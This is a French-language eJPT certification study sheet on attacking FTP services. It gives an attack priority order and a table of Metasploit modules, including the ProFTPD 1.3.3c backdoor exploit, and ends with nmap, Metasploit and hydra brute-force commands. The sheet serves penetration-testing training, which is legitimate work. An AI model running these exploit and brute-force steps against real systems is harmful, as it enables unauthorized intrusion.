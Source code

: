 
## ⚠️ Points d'attention eJPT

### Ordre de priorité d'attaque
1. **Test anonyme** - Toujours en premier
2. **Détection de backdoor** - ProFTPD 1.3.3c spécifiquement
3. **Exploitation directe** - Via exploits Metasploit
4. **Force brute** - Si pas d'exploit disponible
5. **Énumération manuelle** - Recherche de fichiers sensibles

### Modules Metasploit prioritaires
| Priorité | Module | Usage |
|----------|---------|--------|
| **1** | `auxiliary/scanner/ftp/ftp_version` | Identification version |
| **2** | `exploit/unix/ftp/proftpd_133c_backdoor` | Si version 1.3.3c |
| **3** | `auxiliary/scanner/ftp/ftp_login` | Force brute intégré |
| **4** | `auxiliary/scanner/ftp/anonymous` | Test accès anonyme |

### Erreurs à éviter
- Ignorer la détection de version précise
- Ne pas tester l'accès anonyme en premier
- Utiliser des outils externes quand Metasploit a les modules
- Oublier de vérifier la backdoor 1.3.3c
- Ne pas organiser les données collectées

### Commandes essentielles
```bash
# Reconnaissance complète
nmap -sV -sC -p 21 --script ftp* <target>

# Metasploit workflow
use auxiliary/scanner/ftp/ftp_version
use exploit/unix/ftp/proftpd_133c_backdoor
use auxiliary/scanner/ftp/ftp_login

# Force brute externe (si nécessaire)
hydra -L users.txt -P passwords.txt ftp://<target> -t 4 -f
```